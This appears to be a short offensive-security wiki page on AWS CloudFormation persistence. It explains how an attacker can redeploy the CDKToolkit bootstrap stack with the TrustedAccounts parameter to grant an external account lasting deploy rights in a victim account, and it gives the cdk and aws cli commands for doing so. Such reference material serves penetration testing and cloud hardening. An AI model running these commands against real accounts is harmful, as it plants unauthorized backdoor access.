 # AWS - Cloudformation Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

For more information, access:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

The AWS CDK deploys a CFN stack called `CDKToolkit`. This stack supports a parameter `TrustedAccounts` which allow external accounts to deploy CDK projects into the victim account. An attacker can abuse this to grant themselves indefinite access to the victim account, either by using the AWS cli to redeploy the stack with parameters, or the AWS CDK cli.

```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```

{{#include ../../../../banners/hacktricks-training.md}}
